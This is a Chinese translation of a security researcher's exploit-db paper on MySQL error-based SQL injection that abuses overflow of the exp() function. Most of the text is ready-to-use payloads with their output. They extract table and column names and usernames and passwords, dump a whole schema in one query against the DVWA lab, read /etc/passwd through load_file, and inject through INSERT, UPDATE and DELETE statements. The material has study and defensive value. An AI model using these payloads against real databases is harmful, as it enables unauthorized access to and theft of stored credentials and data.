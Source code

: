 ##本文译自[https://www.exploit-db.com/docs/37953.pdf](https://www.exploit-db.com/docs/37953.pdf)
----
#<center>MySQL Error Based SQL Injection Using EXP</center>  
<center>Osanda Malith Jayathissa</center>  
<center>(@OsandaMalith)</center>  
##概述  
这是我发现的另一种double类型的数据溢出。如果你想了解利用溢出来注入，可以读一下我之前发的文章：BIGINT Overflow Error based injections。问题和我之前的文章类似。我对mysql数学函数比较感兴趣，它们应当包含某些数据类型来保存数值。因此我就去测试哪些函数会造成溢出错误。我发现，当传一个大于709的数值时，exp()函数就会引起一个溢出错误。 
 
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)
    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'  
exp()与ln()或log()是功能相反的mysql函数（反函数关系）。简短的介绍一下这些函数的作用，log()和ln()返回自然对数。
e通常情况下近似于2.71828183  

    mysql> select log(15);
    +------------------+
    | log(15)          |
    +------------------+
    | 2.70805020110221 |
    +------------------+
    1 row in set (0.00 sec)
    mysql> select ln(15);
    +------------------+
    | ln(15)           |
    +------------------+
    | 2.70805020110221 |
    +------------------+
    1 row in set (0.00 sec)
    
指数函数为对数函数的反函数，exp()会做相反的运算。  
  
    mysql> select exp(2.70805020110221);
    +-----------------------+
    | exp(2.70805020110221) |
    +-----------------------+
    |15                     |
    +-----------------------+
    1 row in set (0.00 sec)
    
##注入  
当要进行注入时，我们使用取反操作来使double类型超出范围。如果将一个查询结果按位取反就会返回18446744073709551615。如果你能回想起我之前的文章，这是将0按位取反的结果。因为函数执行成功时会返回0，我们将它按位取反会产生无符号BIGINT类型的最大值。    

    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)
    mysql> select ~(select version());
    +----------------------+
    | ~(select version())  |
    +----------------------+
    | 18446744073709551610 |
    +----------------------+
    1 row in set, 1 warning (0.00 sec) 

我们可以通过子查询和按位取反来造成double类型溢出错误获得额外的数据。：）  

    mysql> select exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  
    
##提取数据  
####Getting table names:
    select exp(~(select*from(select table_name from information_schema.tables where table_schem
    a=database() limit 0,1)x));
####Getting column names:
    select exp(~(select*from(select column_name from information_schema.columns where table_n
    ame='users' limit 0,1)x));
####Retrieving Data:
    select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));  

##Dump In One Shot  
这个查询可以从当前的上下文中拖出所有的tables与columns。我们也可以拖出所有的数据库，但由于我们是通过一个错误进行提取，每次只会返回很少的数据。  

    http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select
    count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x))-- -&Submit=Submit#  

    Warning:mysql_query():Unable to save result set in C:\xampp\htdocs\dvwa\vnlnerabilities\sqli\source\low.php on line 10
    DOUBLE value is out of range in 'exp(~((select '000
    dvwa::guestbook::comment_id
    dvwa::guestbook::comment
    dvwa::guestbook::name
    dvwa::users::user_id
    dvwa::users::first_name
    dvwa::users::last_name
    dvwa::users:user
    dvwa::users::password
    dvwa::users::avatar' from dual)))'
##读取文件
你可以通过load_file()函数来读取文件，但注意它有13行的限制。  
    select exp(~(select*from(select load_file('/etc/passwd'))a));  
    
    mysql> select exp(~(select * from(select load_file('/etc/passwd'))a));)
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/
    ->   
    
注意，你无法写文件。因为这是个错误，只会写入0。  

    mysql> select exp(~(select*from(select 'hello')a)) into outfile 'C:/out.txt';
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'hello' from dual)))'
    # type C:\out.txt
    0

##在insert语句中注入  
所有的都和往常一样。 
 
    mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select
    user())x)), 'Eyre');
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  
    
对于所有的insert，update和delete语句DIOS查询也同样可以使用。  

    mysql> insert into users (id, username, password) values (2, '' |
    exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x)), 'Eyre');
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
    newdb::users::id
    newdb::users::username
    newdb::users::password' from dual)))'  
    
##在update语句中注入  

    mysql> update users set password='Peter' ^ exp(~(select*from(select user())x)) where id=4;
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  

##在delete语句中注入  

    mysql> delete from users where id='1' | exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  

##小结  
和之前的BIGINT注入一样，利用exp注入也适用于MySQL5.5.5及以上版本。之前的版本无法利用成功。  

    mysql> select version();
    +---------------------+
    | version()           |
    +---------------------+
    | 5.0.45-community-nt |
    +---------------------+
    1 row in set (0.00 sec)
    mysql> select exp(710);
    +----------+
    | exp(710) |
    +----------+
    |   1.#INF |
    +----------+
    1 row in set (0.00 sec)
    mysql> select exp(~0);
    +---------+
    | exp(~0) |
    +---------+
    | 1.#INF  |
    +---------+
    1 row in set (0.00 sec)   

可能还会有其他函数会产生这种错误：）  

##References  
[1][http://dev.mysql.com/doc/refman/5.5/en/integer-types.html](http://dev.mysql.com/doc/refman/5.5/en/integer-types.html)  
[2][https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html](https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html)  
[3][https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html](https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html)



    
    
    
    
    
    
    
    
    
    
    
    
